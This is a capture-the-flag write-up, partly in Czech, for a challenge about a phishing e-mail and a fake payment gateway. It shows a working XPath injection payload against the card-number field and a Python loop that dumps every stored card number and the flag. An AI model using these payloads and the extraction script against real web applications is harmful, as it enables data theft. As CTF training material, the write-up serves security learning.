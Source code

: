 # Fraudulent e-mail

## Zadání

```
Hi, packet inspector,

we have a apparently problem with some fraudulent payment gateway (see forwarded e-mail). We suspect that many of our customers have come across this scam.

Identify all card numbers entered into the fraudulent webpage (we have to report incident and its details to CSIRT-TCC).

Download fraudulent e-mail (MD5 checksum 94c7696bed436cd63a490de4008d2022).

May the Packet be with you!
```

Email:

```
MIME-Version: 1.0
Date: Mon, 10 Oct 2022 12:39:49 +0200
From: "Boss" <boss@mysterious-delivery.thecatch.cz>
Subject: Fwd: Unpaid invoice
To: "catcher@mysterious-delivery.thecatch.cz" <catcher@mysterious-delivery.thecatch.cz>
Content-Type: text/html; charset=UTF-8; format=flowed
Content-Transfer-Encoding: 8bit

I need to pay it but it's not working!!!<br>
<br>
Boss<br>
<br>
Sent from my CatcherPaw<br>
<br>
---------- Forwarded message ---------<br>
From: Your Mysterious-Delivery Server Admin <admin@mysteriuos-delivery.thecatch.cz><br>
Date: Mon, 10 Oct 2022 12:00:00 +0200<br>
Subject: Unpaid invoice<br>
To: boss@mysterious-delivery.thecatch.cz <boss@mysterious-delivery.thecatch.cz><br>
<br>
Dear Client<br>
<br>
Unfortunately, we have not received payment for your last invoice from you.<br>
Would you please pay the amount due now via our payment gateway.<br>
<br>
Please use the link <a href="http://really.sneaky.phishing.thecatch.cz/?click=sjlk2fgj3oiervAnjkufho3uiKrmsd5xmoudfFdfDkrEn5ers4gj2nf35jvVxKdfjbq24weqfoeire24ge8">http://messenger-portal.mysterious-delivery.thecatch.cz</a> to complete payment.<br>
<br>
Should we not receive payment from you within the next two days, your server will be locked until payment has reached us.<br>
<br>
Best regards<br>
<br>
Mysterious-Delivery Server Admin
```

## Řešení

Stránka http://really.sneaky.phishing.thecatch.cz/ zobrazí "platební bránu", která posíla POST request data, například:

```python
data = {
'card-holder-name': 'Jmeno',
'card-number': "4556132988899614",
'card-expires-date': '02/2022',
'card-cvv': 123,
'proceed-to-pay': '',
}
```

Testování citlivosti vstupů na různé znaky odhalí, že parametr `card-number` ohlásí chybu při použití uvozovky `"`:

```python
data['card-number'] = '"'
r = requests.post('http://really.sneaky.phishing.thecatch.cz/', data = data)
print(r.text)
```

```
<b>Warning</b>:  SimpleXMLElement::xpath(): Unfinished literal in <b>/var/www/html/index.php</b> on line <b>82</b><br />
```

Dle chybové hlášky by se mohlo jednat o XPATH injection (https://book.hacktricks.xyz/pentesting-web/xpath-injection)

Zajimavý výsledek získáme:

```python
data['card-number'] = "1 or position()=1"
r = requests.post('http://really.sneaky.phishing.thecatch.cz/', data = data)
print(r.text)
```

Výstup

```
...
<p>This card <strong>4556-1329-8889-9614</strong> is broken.</p>
```

Ve výstupu se objevilo číslo nějaké karty! Zkusíme tedy vypsat všechny karty a uvídíme jestli mezi nimi bude i vlajka.

### Program pro výpis vlajky

```python
import requests
import re

data = {
'card-holder-name': 'as',
'card-expires-date': '02/2022',
'card-cvv': 123,
'proceed-to-pay': '',
}

i = 1
while True:
    data['card-number'] = "1 or position()=%i" % i
    r = requests.post('http://really.sneaky.phishing.thecatch.cz/', data = data)
    m = re.search(r'This card <strong>(.*)<\/strong>', r.text)
    if m == None:
        break
    out = m.group(1)
    print(out)
    if 'FLAG' in out:
        break
    i += 1
```

Výstup:

```
...
3763-4282-5926-704
4485-4387-3632-9762
FLAG{0BF0-RREd-vAK3-1Ayi}
```

### Vlajka

```
FLAG{0BF0-RREd-vAK3-1Ayi}
```
